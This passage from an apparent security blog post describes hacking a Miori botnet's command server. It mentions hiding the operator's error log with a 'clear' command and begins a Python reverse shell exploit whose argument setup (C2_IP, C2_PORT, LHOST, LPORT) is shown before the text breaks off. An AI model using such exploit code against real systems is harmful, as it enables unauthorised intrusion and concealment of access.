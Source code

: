 ![Alt Text](/img/blog/pwn-hacking-botnets/miori_poc.gif)
<br>

Operator's view:
<img src="/img/blog/pwn-hacking-botnets/view_operator.png">

This error log alerts the operator, but due to lack of proper technical knowledge I doubt most of them will understand what happened. Still, let's not leave it up to a chance and hide the error log with a `clear` command in the following section. 

## Making a reverse shell exploit with python3 
Let's start out by supplying the required imports, making a socket, and connecting it to the server-port combination we supply.
```python
import socket
import os
import sys
from time import sleep

if(len(sys.argv) != 5):
	exit("Usage:\n\tpython3 {} C2_IP C2_PORT LHOST LPORT".format(sys.argv[0]))

C2_IP   = sys.argv[1]
C2_PORT = sys.argv[2]
LHOST   = sys.argv[3]
```